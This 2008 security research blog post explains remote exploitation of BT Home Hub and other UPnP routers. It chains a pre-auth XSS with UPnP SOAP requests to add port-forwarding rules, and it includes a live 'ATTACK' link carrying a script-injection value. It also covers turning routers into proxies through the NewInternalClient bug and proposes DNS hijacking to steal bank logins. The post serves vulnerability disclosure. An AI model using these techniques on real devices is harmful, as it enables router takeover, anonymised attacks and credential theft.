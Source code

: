 ```yaml
---
title: BT Home Flub Pwnin The BT Home Hub (5) - exploiting IGDs remotely via UPnP
author: pagvac
date: Thu, 10 Jan 2008 11:46:14 GMT
template: post.pug
category: fucked
---
```


It's known that [UPnP](http://www.upnp.org/resources/whitepapers.asp) is inherently insecure for a very simple reason: administrative tasks can be performed on a Internet Gateway Device (IGD) without needing to know the admin password whatsoever! This on its own is quite scary and I personally feel that although there is some research in the public domain, there is much more attention that needs to be paid to UPnP.

UPnP allows you to perform administrative functions. Some functions are very standardized and supported by most devices. Examples include obtaining network settings, and enabling port forwarding rules. Other functions are make/model specific. Some very scary functions such as obtaining administrative username and password pairs have been [reported](http://www.securityfocus.com/bid/7267/discuss) in the past. As a reminder, this works without submitting any administrative password whatsoever since UPnP is a authenticationless protocol. On top of this, most IGDs support UPnP by default.

After having read several UPnP security research materials I realized that all the described attacks assume that the attacker (be it human or malware) comes from inside the network. This post describes how to exploit IGDs remotely via UPnP _even when no services are publicly available_ (WAN interface).

### Preauth XSS + SOAP payload = remote UPnP exploitation

If you sniff yourself while running software that uses UPnP in the background to help you configure your router, you'll see that UPnP is nothing more than SOAP. Our AJAX knowledge tells us about a feature that allows us to craft arbitrary XML requests: the [XMLHttpRequest](http://www.w3.org/TR/XMLHttpRequest/) object. Trouble is, such object can only be used within the context of the site that the requests are submitted to. So if we host the malicious scripting code on a third-party site, and a victim user located in the same LAN as the target IGD visits such page, the request _wouldn't_ go through due to XMLHttpRequest same-origin policy restriction. Or put in a different way: you aren't allowed to make _XMLHttpRequest_s to any server except the server where your web page came from.

However, if you find a [pre-auth XSS vulnerability](/blog/bt-home-flub-pwnin-the-bt-home-hub-4) on the target device you can bypass such restriction. For instance, many devices such as the BT Home Hub and Speedtouch routers offer certain pages before authenticating. Some of these pages are cgi scripts which are vulnerable to XSS. Although offering certain "useless" functionalities before logging into the router might not seem like a big deal, it can actually lead to UPnP being exploited remotely, even if the web admin console is _not_ visible from the Internet!

The following is a non-malicious proof-of-concept exploit which sets up a port-forwarding rule from port 1337 on the WAN interface to port 445 on the internal IP address 192.168.1.64. Such IP address is the first usable IP address reserved for clients connected to Speedtouch and BT Home Hub routers. The exploit has been tested on BT Home Hub - Firmware version 6.2.6.B. Just to make things clear, UPnP is enabled by default on the BT Home Hub, just like most IGDs. If your Internet gateway is a BT Home Hub, clicking on the following link should add a new forward rule called **EVILFORWARDRULE**: [ATTACK](http://192.168.1.254/cgi/b/ic/connect/?url=%22%3e%3cscript%20src=).

In order to check if the port-forwarding rule was added successfully you can use [UPnP Port Forwarding Utility](http://www.codeproject.com/KB/IP/PortForward.aspx) and simply click on "Update list now" after the device has been discovered (device name should show on the top-left corner a few seconds later after launching the tool). You could of course use the technique and code explained in this post on any Internet gateway that supports UPnP and is a vulnerable to a preauth XSS vulnerability. If you manage to successfully test this attack on the BT Home Hub or any other device please let us know!

    [/files/2008/01/payload.xss](/files/2008/01/payload.xss)

### Zombie routers and the unvalidated _NewInternalClient_ bug

A bit of more UPnP hacking lead me to realize that the BT Home Hub is vulnerable to the (in)famous unvalidated _NewInternalClient_ bug. This bug allows you to choose external IP addresses instead of a LAN IP addresses as intended when setting up port-forwarding rules via UPnP. In this case, I reused the previous code and  changed the internal IP address (`192.168.1.64`) in the _NewInternalClient_ tag with the IP address of a random Internet web server and the value of the _NewInternalPort_ tag to `80`. This effectively allows an attacker to use the vulnerable BT Home Hub router as a proxy - aka onion router. In other words, when probing the router's NATed IP address on port 1337, the attacker is effectively probing the IP address and port number specified by the port-forwarding rule - except the routers IP address would be shown in logs of the target web server, as opposed to the attacker's real IP address. I thought this is a nice real example of how a vulnerable router can be used as a **zombie** by simply having a user visit a page with malicious scripting (XSS + UPnP SOAP request). Imagine running your favourite vulnerability scanner against a target site, while using the victim user's router as a proxy - sweet!

_There are other UPnP functionalities besides port forwarding rules that look potentially interesting from a hacking point of view. For instance, [SetDNSServer](http://www-adele.imag.fr/users/Didier.Donsez/dev/osgi/upnpgendevice/api/fr/imag/adele/bundle/upnp/igd/model/LANHostConfigManagementModel.html#setDNSServer(java.lang.String)) allows you to guess what, set the gateway's DNS server. Imagine someone changing your router's DNS server setting by simply visiting a webpage. After that you visit yourfavoritebank.com and guess what, you're actually visiting a malicious server that is harvesting all your banking login details! I'll leave the exercise of writing a remote UPnP exploit that changes the DNS server setting on the BT Home Hub (or any other vulnerable router) to the reader._
